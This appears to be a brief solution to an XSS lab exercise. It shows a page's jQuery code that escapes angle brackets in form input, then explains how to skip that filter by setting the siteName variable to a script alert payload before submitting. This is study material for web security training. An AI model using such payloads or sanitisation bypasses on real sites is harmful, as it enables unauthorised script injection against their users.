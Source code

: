 Usual XSS in any form

`<script>alert('Ex1');</script>`

doesn't give result, because of replacer in /js/ex1.js

`var siteName = $(".ex1 input[type='text']").val().trim().replace(/</g, "&lt;").replace(/>/g, "&gt;");
 var siteURL = $(".ex1 input[type='url']").val().trim().replace(/</g, "&lt;").replace(/>/g, "&gt;");`

and list 'My site' build by this line

`$("<p class='lead'><span class='label     label-success'>" + siteName + "</span>" + siteURL + "</p>").appendTo(".ex1.links-place");`

so change variable value siteName or siteUrl like this

`var siteName="<script>alert('Ex1')</script>"`

and send form with any value.